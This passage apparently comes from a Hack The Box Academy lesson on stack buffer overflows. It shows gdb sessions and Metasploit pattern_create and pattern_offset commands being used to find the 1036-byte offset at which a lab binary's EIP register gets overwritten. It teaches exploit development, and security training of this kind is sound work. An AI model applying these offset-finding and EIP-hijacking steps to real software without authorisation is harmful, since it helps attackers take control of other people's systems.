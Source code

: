 ![image](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_2.png)

This means that we have to write access to the EIP. This, in turn, allows specifying to which memory address the EIP should jump. However, to manipulate the register, we need an exact number of U's up to the EIP so that the following 4 bytes can be overwritten with our desired memory address.

## Determine the Offset
How many bytes are needed to overwrite the buffer and how much space we have around our shellcode.

- Create pattern:

```bash
Pietra@htb[/htb]$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt
Pietra@htb[/htb]$ cat pattern.txt

Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9
```

Now we replace our 1200 "`U`"s with the generated patterns and focus our attention again on the EIP.

- Using generated pattern:

```
(gdb) run $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'") 

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'")
Program received signal SIGSEGV, Segmentation fault.
0x69423569 in ?? ()
```

```
(gdb) info registers eip

eip            0x694235690x69423569
```

We see that the `EIP` displays a different memory address, and we can use another MSF tool called "`pattern_offset`" to calculate the exact number of characters (offset) needed to advance to the `EIP`.

- Offset:

```
Pietra@htb[/htb]$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569

[*] Exact match at offset 1036
```


![image](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_3.png)
